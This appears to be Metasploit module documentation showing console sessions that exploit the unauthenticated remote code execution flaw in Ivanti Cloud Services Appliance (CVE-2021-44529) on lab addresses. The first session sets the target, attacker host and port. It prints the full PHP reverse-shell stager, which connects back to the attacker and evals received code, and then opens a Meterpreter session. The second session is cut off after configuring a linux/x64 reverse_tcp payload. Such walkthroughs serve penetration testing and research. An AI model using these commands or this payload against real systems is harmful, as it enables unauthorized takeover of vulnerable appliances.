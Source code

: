 ### Ivanti Cloud Services Appliance RCE using payload php/meterpreter/reverse_tcp
```
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set target 1
target => 1
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set rhosts 192.168.100.41
rhosts => 192.168.100.41
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lport 4444
lport => 4444
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.41:443 can be exploited.
[+] The target is vulnerable. Version: 4.6.0-20211203.1950
.
[*] Executing PHP Command with /*<?php /**/ error_reporting(0); $ip = '192.168.100.7'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
[*] Sending stage (39927 bytes) to 192.168.100.41
[*] Meterpreter session 2 opened (192.168.100.7:4444 -> 192.168.100.41:59432) at 2023-01-08 16:47:23 +0000

meterpreter > sysinfo
Computer    : localhost.localdomain
OS          : Linux localhost.localdomain 3.10.0-1160.el7.x86_64 #1 SMP Mon Oct 19 16:18:59 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: nobody
meterpreter >
```

### Ivanti Cloud Services Appliance RCE using payload linux/x64/meterpreter/reverse_tcp
```
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set target 2
target => 2
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set rhosts 192.168.100.41
rhosts => 192.168.100.41
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set lport 4444
lport => 4444
msf exploit(linux/http/ivanti_csa_unauth_rce_cve_2021_44529) > set srvport 1080
srvport => 1080
```
